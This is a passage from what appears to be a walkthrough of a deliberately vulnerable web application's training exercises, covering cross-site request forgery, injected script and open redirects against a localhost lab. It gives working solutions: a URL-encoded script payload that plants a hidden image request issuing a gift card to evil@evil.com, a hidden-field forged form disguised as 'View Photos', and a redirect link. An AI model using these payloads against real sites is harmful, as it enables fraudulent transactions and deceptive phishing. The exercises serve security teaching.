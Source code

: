 For Python 2, change the first line of that to:

    from urllib import quote

Use the resulting value in the qs parameter:

    http://localhost:8000/csrf/image?qs=%20%20%20%20%20%22%3Bvar%20i%3Ddocument.createElement%28%27img%27%29%3B%20%20%20%20%20i.src%3D%27/csrf/gift-card%3Femail%3Devil%40evil.com%26amount%3D100%27%3B%20%20%20%20%20i.setAttribute%28%27display%27%2C%20%27none%27%29%3B%20%20%20%20%20document.body.appendChild%28i%29%3B%22

This solution is available live in the app after you've tried it with a
non-working qs paramter.


## A8: Cross Site Request Forgery - Third Party Site

In this exercise we're pretending to submit a form from an external location
that will be POSTed to our vulnerable site.

Open up badguys/templates/vulnerable/csrf/third_party.html in your
editor and find the "put your form here" comment.

Use the gift card form again for reference to field names:

    http://localhost:8000/csrf/gift-card

Craft a form and add it to the template:

    <form action="http://localhost:8000/csrf/gift-card" method="POST">
        <input type="hidden" name="email" value="evil@evil.com">
        <input type="hidden" name="amount" value="100">
        <input type="submit" value="View Photos">
    </form>

Save the template and reload the page in your browser, then submit the form.

Optionally garnish with innocent-looking kitten photos from Placekitten.com:

    <img src="http://placekitten.com/400/200">


## A9: Using Known Vulnerable Components

No exercises for this section.


## A10: Unvalidated Redirects and Forwards - External Redirects

Grab the redirection link from the exercise:

    http://localhost:8000/redirects-and-forwards/redirect?url=%2Fredirects-and-forwards%2Fredirects

Pick a favorite URL that you'd like to redirect to, such as:

    http://example.com
